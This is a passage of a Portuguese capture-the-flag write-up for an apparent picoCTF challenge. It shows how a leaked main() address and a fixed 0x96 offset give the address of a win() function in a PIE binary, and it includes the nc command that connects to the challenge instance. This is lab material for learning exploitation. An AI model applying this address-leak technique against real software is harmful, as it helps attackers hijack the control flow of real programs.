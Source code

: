 ```
Address of main: 0x55cfc85f733d
Address of win: 0x55cfc85f72a7
Enter the address to jump to, ex => 0x12345:
```

Esse resultado não é muito revelador. No entanto, como o PIE define um endereço base para o executável, a função `main()` e `win()` terão endereços relativos entre si. Isso significa que, se a `main()` for carregada em um determinado endereço, a `win()` sempre estará a um deslocamento fixo em relação a ela. Assim, uma vez que descobrimos o endereço de `main()`, podemos calcular o endereço de `win()` somando esse deslocamento.

Em outras palavras:

```
Endereço de Win = Endereço de main + deslocamento
```

Vamos executar mais uma vez o mesmo código:

```
Address of main: 0x55fa243db33d
Address of win: 0x55fa243db2a7
Enter the address to jump to, ex => 0x12345:
```

Vamos fazer algumas contas para tentar identificar qual é a diferença do  endereço de win para o main e ver se segue algum padrão.

```
Para o primeiro caso: 0x55cfc85f733d (main) - 0x55cfc85f72a7 (win) = 0x96 (96 em hexadecimal) 
```

```
Para o segundo caso: 0x55fa243db33d (main) - 0x55fa243db2a7 (win) = 0x96 (96 em hexadecimal)
```

Se você ficar rodando diversas vezes, esse mesmo padrão vai se manter, a diferença entre o main e o win será sempre de 0x96.

Portanto, se sabemos o endereço da main, basta subtrair x96 e descobrimos o  da win

### Conectando via netcat

Para se conectar via netcat, basta copiar o comando disponibilizado quando inicializa a instância

```
nc rescued-float.picoctf.net 50799
```

No meu caso, o output foi:

```
Address of main: 0x5e1a72d9b33d
Enter the address to jump to, ex => 0x12345:
```

Então basta subtrair 0x96 no endereço da main: 

```
0x5e1a72d9b33d - 0x96 = 0x5e1a72d9b2a7
```
